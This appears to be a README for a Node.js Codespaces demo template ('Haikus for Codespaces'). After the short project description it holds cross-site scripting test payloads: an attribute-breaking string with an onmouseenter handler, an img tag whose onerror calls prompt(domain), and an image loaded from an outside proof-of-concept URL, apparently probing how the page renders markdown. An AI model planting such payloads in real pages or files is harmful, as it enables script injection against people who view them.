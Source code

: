 
# Haikus for Codespaces

This is a quicks node project template for demoing Codespaces. It is based off of the [Azure node sample](https://github.com/Azure-Samples/nodejs-docs-hello-world). It's great!!!


"onmouseenter=confirm(1)>

test"> <img src="x" onerror="prompt(domain)"></img>


<img src=https://www.jonbottarini.com/pocs/restricted.php></img>
